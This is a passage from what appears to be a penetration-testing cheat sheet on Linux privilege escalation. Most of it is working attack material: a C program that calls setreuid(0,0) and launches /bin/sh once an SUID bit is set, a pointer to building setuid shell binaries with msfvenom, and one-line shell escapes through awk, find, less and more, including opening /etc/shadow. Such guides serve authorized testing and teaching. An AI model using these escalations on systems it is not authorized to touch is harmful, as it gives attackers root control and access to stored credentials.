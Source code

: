 Also perform a check of any sudo commands you can run as a privileged user:

```text
sudo -l
```

Check any binaries in the above lists, both what they do and the version number. Many older applications have vulnerabilities that can lead to code execution so that is also worth reading up on.

If you have a method of adding an SUID bit to a custom executable the following quick and dirty solution will work:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
​
int main( int argc, char *argv[] )
{
    setreuid(0, 0);
    execve("/bin/sh", NULL, NULL);
}
```

You could also just generate a binary using msfvenom if desired, but this will require the `PrependSetuid=True` if spawning a `/bin/bash` shell.

The following standard Unix tools have many easy ways to perform arbitrary code execution if you find yourself in a situation enabling you to execute them as a privileged user.

#### awk <a id="awk"></a>

```text
awk 'BEGIN {system("/bin/bash")}'
```

#### find <a id="find"></a>

```text
find / -exec bash -i \;
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```

#### less <a id="less"></a>

From less you can go into vi, and then into a shell.

```text
less /etc/shadow
v
:shell
```

#### more <a id="more"></a>

You need to run more on a file that is bigger than your screen.

```text
more /home/pelle/myfile
!/bin/bash
```
